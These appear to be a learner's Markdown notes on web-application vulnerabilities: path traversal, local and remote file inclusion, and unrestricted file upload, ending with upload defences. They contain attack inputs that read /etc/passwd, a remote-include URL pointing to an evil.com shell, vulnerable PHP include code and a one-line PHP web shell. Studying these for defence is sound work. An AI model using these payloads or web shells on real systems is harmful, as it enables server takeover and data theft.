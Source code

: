 ![image-20210220183157468](images/image-20210220183157468.png)



---



[TOC]



### Path Traversal



> Some web applications needs to access resources on the File System to implement the web application ( such  as *images,static text and so on*)

> Sometime they use *parameters* to define the **resources**



> When these *parameters*  are **user-controlled** => and not sanitized properly =>  and are used to build the resource path on the File System =>  Then Security Issues arise





* ### Example

  * ![image-20210220183637841](images/image-20210220183637841.png)
  * ![image-20210220183656129](images/image-20210220183656129.png)
  * If the Web Application does not **sanitize**  the *parameter* properly,  an attacker could *manipulate* it to access the *contents*  of any  arbitrary file
    * (access resources that are not intended to be accessed).
  * ![image-20210220183817327](images/image-20210220183817327.png)
  * ![image-20210220183832900](images/image-20210220183832900.png)







* ![image-20210220183917797](images/image-20210220183917797.png)





* ![image-20210220183933388](images/image-20210220183933388.png)





* ![image-20210220183952482](images/image-20210220183952482.png)





![image-20210220184055038](images/image-20210220184055038.png)





* ![image-20210220184030038](images/image-20210220184030038.png)







* ![image-20210220184120217](images/image-20210220184120217.png)



* ![image-20210220184149152](images/image-20210220184149152.png)







* ![image-20210220184246358](images/image-20210220184246358.png)







![image-20210220184312824](images/image-20210220184312824.png)





* ![image-20210220184336720](images/image-20210220184336720.png)



* ![image-20210220184426998](images/image-20210220184426998.png)







![image-20210220184507869](images/image-20210220184507869.png)





* ![image-20210220184600879](images/image-20210220184600879.png)











---





### File Inclusion Vulnerabilities





> File Inclusion Vuln =>  **Remote**  & **Local**    [LFI] & [RFI]
>
>
> Depend on where the file to include is located
>
> 
>
>
> LFI =>  against the first  Perl CGIs =>
>
> ```
> visit.pl?url=../../../../etc/passwd
> ```
>
> 

> ![image-20210220184915752](images/image-20210220184915752.png)





> Common in old time  and still can be found in *custom scripts* where path characters are not *stripped*  from the input and the input is used as part of an **include**



* Example

  * Target application => http://target.site/index.php?location=IT

    * This changes its contents depending ont the **location** of the visitor

  * PHP Code that handles the parameter => 

    ```
    <?php
    	include("loc/" . $_GET['location']);
    ?>
    ```

  * There, we can see that we can enter any valid local path-to-file to have the PHP include it in the response to our browser

    * ```
      index.php?location=../../../etc/passwd
      ```

  * This will go up 3 directories and then return **etc/passwd** => which will return Unix password file

  * ![image-20210220185424835](images/image-20210220185424835.png)

  * If, instead, the code looks like this => 

    ```
    <?php
    	include($_GET['location'] . "/template.tlp");
    ?>
    ```

  * A valid exploit would be: 

    ```
    index.php?location=../../../etc/passwd%00
    ```

  * **%00** => null character that terminates the string







* This type of vulnerabilities usually found in  little custom made CMS's where pages are loaded with  an **include** and their paths taken from the input







> ![image-20210220185742288](images/image-20210220185742288.png)





> **RFI** works in same way as **LFI**
>
> ​	Difference =>  in RFI => File to be included is pulled *remotely*

> In **RFI** aim is =>  not just to read, but to include our own code in the execution
>
> ```
> Example =>
> 
> vuln.php?page=http://evil.com/shell.txt
> ```



> **shell.txt**  contain PHP Code will included in the page and will be executed



> Common exploit is ti include PHP Shell that would let the hacker execute any code on the server



> Even the simplest PHP shell will accept commands from GET/POST arguments and execute them on the server.



* ![image-20210220194044572](images/image-20210220194044572.png)



* ![image-20210220200551129](images/image-20210220200551129.png)
* ![image-20210220200607305](images/image-20210220200607305.png)
* ![image-20210220200639797](images/image-20210220200639797.png)
* ![image-20210220200702674](images/image-20210220200702674.png)





![image-20210220200741255](images/image-20210220200741255.png)











---





### Unrestricted File Upload





> This vulnerability affects all those web applications that allow the upload of files without properly enforcing restrictive polices on :
>
> 
>
> * The maximum size of the file (DoS)
> * The nature of the file (if Image, PDF, XLS...)



> If web applications do not implement proper restriction on files uploaded by the user, the risks of being compromised is very high.



> Impact depends upon how the file is used by the web application, an attacker may be able to acquire complete control of the syste



* Example

  * Suppose target web application is both hosted on the domain **http://fileupload.site**  and an authenticated user can upload a personal image on his/her profile page

  * Suppose that the upload occurs through a POST method at this page 

    ```
    http://fileupload.site/uploadImage.php
    ```

  * and that the new image will be available by requesting the URL => 

    ```
    http://fileupload.site/images/<FileNameAsUploadedByTheUSER>
    ```

  * So, If the web application does not peform  checks on the  **file type uploaded** , an attacker could upload a shell and execute it by browsing to the uploaded file 

    * (if the path and file name is predictable or known)

    * ```
      <?php
      exec($_GET[‘command’]);
      ?>
      ```

  * Then => **http://fileupload.site/images/myshell.php?command=<COMMAND>**

    * this way we can launch arbitrary OS commands by specifying them in the URL



![image-20210220201725152](images/image-20210220201725152.png)







> Attacker can :
>
> 
>
> * create phishing pages
> * deface the web application
> * Store XSS
> * Upload malicious files









> ### The Attack



* First understand how the application works, where the file is stored and both how it is used and included in the  web application itself
  * ![image-20210220202129064](images/image-20210220202129064.png)
* ![image-20210220202159174](images/image-20210220202159174.png)
* ![image-20210220203306579](images/image-20210220203306579.png)
* ![image-20210220203341099](images/image-20210220203341099.png)
* ![image-20210220203358878](images/image-20210220203358878.png)
* ![image-20210220203415258](images/image-20210220203415258.png)









> ![image-20210220203555736](images/image-20210220203555736.png)







![image-20210220203614547](images/image-20210220203614547.png)





![image-20210220203700631](images/image-20210220203700631.png)





![image-20210220203729477](images/image-20210220203729477.png)





![image-20210220203801809](images/image-20210220203801809.png)





![image-20210220203841853](images/image-20210220203841853.png)







> The best defense is to actually determine the file type by inspecting the content of the uploaded file
>
>
> this can be achieved using libraries for binary formats or parsers for text files
>
> 
>
> *However this is not the only recommendation.*



> Web developers must limit the file size as well as the file name, set proper permission on the upload folder, filter and discard special characters, use virus scanners and so on.



![image-20210220204113472](images/image-20210220204113472.png)





---

